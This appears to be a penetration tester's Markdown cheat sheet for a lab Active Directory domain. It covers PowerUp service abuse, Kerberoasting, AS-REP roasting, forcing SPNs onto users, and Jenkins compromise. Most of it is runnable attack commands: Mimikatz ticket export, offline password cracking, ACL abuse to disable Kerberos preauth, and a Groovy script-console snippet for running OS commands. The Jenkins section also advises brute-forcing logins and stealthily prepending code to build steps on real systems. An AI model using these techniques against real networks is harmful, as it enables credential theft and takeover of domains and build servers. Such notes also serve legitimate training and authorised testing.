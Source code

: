 # Privilege Escalation
> Mainly focus on the Domain Privilege Escalation
Table of Content
1. [test](#test)


## Local Privilege Escalation
> See [Window Privilege Escalation](#test)

All check
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Service abuse
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```

## Domain Privilege Escalation
### Kerberoasting
The offline cracking technique which crack the hashes of service accounts via TGS --> then use it to create the silver ticket

1. Find user accounts used as Service accounts -> Read the service principal name, for this exmaple, we use **MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local**
```powershell
#PowerView
Get-NetUser -SPN

#ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
![service account](./images/service_account.png)

2. Request a TGS
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" 
```

3. Check if the TGS has been granted
```powershell
klist
```

4. Extract
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
5. Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

### AS-REP Roasting
If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.

>With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well

1. Find users which Kerberos preauth is disabled
```powershell
# Using PowerView (dev):
 . .\PowerView_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose

# Using ActiveDirectory module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
Or you could disable them
```powershell
#Let's enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReferenceName -match "RDPUsers"}

# Disable
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose
```

2. Request encrypted AS-REP for offline brute-force.
```powershell
. .\ASREPRoast-master\ASREPRoast-master\ASREPRoast.ps1
# specific user
Get-ASREPHash -UserName VPN1user -Verbose

# To enumerate all users with Kerberos preauth disabled and request a hash
Invoke-ASREPRoast -Verbose
```

3. Cracking the hashes
Using john.
```powershell
./john vpn1user.txt --wordlist=wordlist.txt
```


### Kerberoasting - Set SPN
With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).

We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

1. find the interesting user
```powershell
# Check who we can control
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# check if they already have SPN (Powerview (dev))
Get-DomainUser -Identity support134user | select serviceprincipalname

# Using ActiveDirectory module:
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

2. Set a SPN for the user (must be unique for the domain)
```powershell
#using Powerview (dev) - Ignore error
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}

#Using ActiveDirectory module:
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}
```

3. Request a ticket (same as simple kerberoast)
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```

3. Check if the TGS has been granted
```powershell
klist
```
4. Extract
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
5. Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@ops~whatever1-dollarcorp.moneycorp.LOCAL.kirbi
```
Alternatively, we can use PowerView_dev for requesting a hash:
```powershell
Get-DomainUser -Identity supportXuser | Get-DomainSPNTicket | select -ExpandProperty Hash
```


# Jenkin --> move to CVE catagory
1. jenkin default allow us to read user and computer
2. jenkin dosn't have rate limit which we can burte force if we know the username (form author perspective try guessing password as username or reversed username)
3. with administrator privileges we can run groovy script on the system

>If you have Admin access (default installation before 2.x), go to http://<IP>/script
In the script console, Groovy scripts could be
```Groovy
executed.def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
5. with normal user, we may can create configuration for the project and we can run OS command via the configuration. (checking permission on burp intruder appending the /configure to the project file) - you need to check every project

>If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter: **powershell –c**

>Again, you could download and execute scripts, run encoded scripts and more.

>In the real world, make our configuration code run before the already-have-code.